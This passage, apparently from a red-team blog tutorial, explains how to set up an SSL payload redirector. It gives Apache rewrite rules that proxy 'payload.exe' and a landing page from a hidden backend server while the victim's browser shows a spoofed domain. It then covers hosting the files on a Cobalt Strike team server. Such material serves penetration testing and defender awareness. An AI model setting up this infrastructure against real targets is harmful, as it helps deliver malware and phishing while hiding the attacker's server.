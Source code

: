 Here is what our set up will look like:

{% include image.html file="/assets/ssl-redirectors/ssl-payload-redirection-diagram.png" description="SSL Payload Redirection Diagram" %}

Notice that we are hosting the files over HTTP on the backend. We're doing this for demonstration and ease of setup.

Once our first-time setup is complete on the host (see above) we will add the following text to the file `/var/www/html/.htaccess`:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;font-family: monospace;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/(payload\.exe|landingpage\.html)/?$</span> <span style="color: mediumpurple">[NC]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REMOTE-HOST-IP<span style="color: dodgerblue">%{REQUEST_URI}</span></span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://example.com/404</span><span style="color: mediumvioletred">?</span> <span style="color: tomato">[L,R=302]</span>
</div>

Here is a color-coded breakdown of what the rules are doing:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;font-family: monospace;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">is either '/payload.exe' or '/landingpage.html' (with an optional trailing slash), </span> <span style="color: mediumpurple"> ignoring case; </span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to serve the </span><span style="color: dodgerblue">original request path </span><span style="color: orange">from the remote host's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the backend server's IP).</span><br>
If the above conditions are not met, <span style="color: gold">change the entire request</span> <span style="color: orange"> to http://example.com/404 </span><span style="color: mediumvioletred">and drop any query strings from the original request. </span> <span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span>
</div>

Notice in the above ruleset that we are using HTTP for the first RewriteRule, since we are hosting the *payload.exe* and *landingpage.html* file on the backend server using HTTP only.

Here is how the *landingpage.html* file will render in our victims' browsers:

{% include image.html file="/assets/ssl-redirectors/ssl-payload-redirection-demo.png" description="Redirected SSL Traffic to Hosted File" %}

Notice that the browser shows spoofdomain.com in the URL bar, despite the file itself being hosted on another server. The backend file can be hosted either via HTTPS or HTTP; both will appear as expected in the target's browser.

The files can also be hosted on a Cobalt Strike team server. Cobalt Strike versions 3.10 and above support hosting the social engineering attacks and files via SSL. To do this, you need to create a keystore from the SSL certificate, upload the keystore to the Cobalt Strike team server, and specify the keystore in the server's Malleable C2 profile.
